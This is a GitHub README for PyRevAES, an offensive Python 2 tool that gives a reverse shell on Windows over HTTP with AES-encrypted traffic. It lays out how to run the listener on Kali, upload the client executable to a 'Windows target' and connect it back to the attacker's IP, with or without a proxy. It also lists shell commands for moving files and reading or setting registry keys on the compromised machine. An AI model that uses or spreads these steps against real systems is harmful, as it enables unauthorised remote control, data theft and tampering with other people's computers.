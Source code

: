 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python2.

If I get some time, I will convert this to a python3 project.


## Install:
1. ```git clone https://github.com/simon-revit/PyRevAES.git```
2. ```cd PyRevAES/```
3. ```pip2 install -r requirements.txt```
4. ```python2 server_shell_http.py```
5. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Usage:
1. Run server_shell_http.py from kali (and choose port 80)
```
sudo python2 server_shell_http.py
```
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## Extras:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

NB: If changing the ```secret``` AES encryption key, ensure you change both the client and server scripts to match.

## Commands:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message
WINREG HELP
```
Usage set:  	winreg,set,[HKEY],"[REG_PATH]",[REG_NAME],[value]
Example:        winreg,set,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity,7
                                or
Usage read: 	winreg,read,[HKEY],[REG_PATH],[REG_NAME]
Example:        winreg,read,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity
```


## Issues:
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
